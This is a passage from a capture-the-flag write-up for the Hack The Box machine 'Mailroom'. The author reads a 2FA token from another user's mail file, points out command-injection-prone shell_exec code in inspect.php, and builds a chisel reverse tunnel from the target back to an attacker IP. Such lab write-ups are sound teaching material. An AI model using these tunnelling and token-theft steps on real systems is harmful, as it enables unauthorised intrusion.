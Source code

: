 ```
personal.kdbx  user.txt
```
### matthew user

When i logged in with SSH, i recivied a notification that i have mail. Looking at the `/var/mail/tristan` file, it is the mail containing the 2FA token, as expected:
```
cat /var/mail/tristan 
Return-Path: <noreply@mailroom.htb>
X-Original-To: tristan@mailroom.htb
Delivered-To: tristan@mailroom.htb
Received: from localhost (unknown [172.19.0.5])
        by mailroom.localdomain (Postfix) with SMTP id 54560DA7
        for <tristan@mailroom.htb>; Tue, 18 Apr 2023 17:09:45 +0000 (UTC)
Subject: 2FA

Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=61c086997707dc80f4eaf613f986b966
```
So i can use the full funcionality of the website now. But is there something i can exploit? In the `inspect.php` file, there is very suspicious code:
```php
if (isset($_POST['inquiry_id'])) {
  $inquiryId = preg_replace('/[\$<>;|&{}\(\)\[\]\'\"]/', '', $_POST['inquiry_id']);
  $contents = shell_exec("cat /var/www/mailroom/inquiries/$inquiryId.html");
```
and:
```php
if (isset($_POST['status_id'])) {
  $inquiryId = preg_replace('/[\$<>;|&{}\(\)\[\]\'\"]/', '', $_POST['status_id']);
  $contents = shell_exec("cat /var/www/mailroom/inquiries/$inquiryId.html");
```
Calling `shell_exec` on suer provided input is bad, but it has a filter that replaces most bad chracters with empty string. I will get back to this later.

For now, let's try to access the website. Now that i have access to the machine, i can create a reverse tunnel. To do taht, i am going to use [chisel](https://github.com/jpillora/chisel). Creating a reverse tunnel with chisel is quite simple. First on my localhost (attacker machine) i will create a listener server:
```
./chisel server -p 8000 --reverse
```

And on the remote machine (target) i will connect to the server with a client:
```
./chisel client  10.10.14.198:8000 R:8888:staff-review-panel.mailroom.htb:80
```

This tunnel is going to redirect every request i make on my localhost on port 8888 to http://staff-review-panel.mailroom.htb:80. Actually, since the subdomain and main domain are on the same port, Accessing http://localhost:8888 would redirect me to http://mailroom.htb. To solve that, i am going to add an entry to my `/etc/hosts` file:
```
127.0.0.1       localhost staff-review-panel.mailroom.htb
```
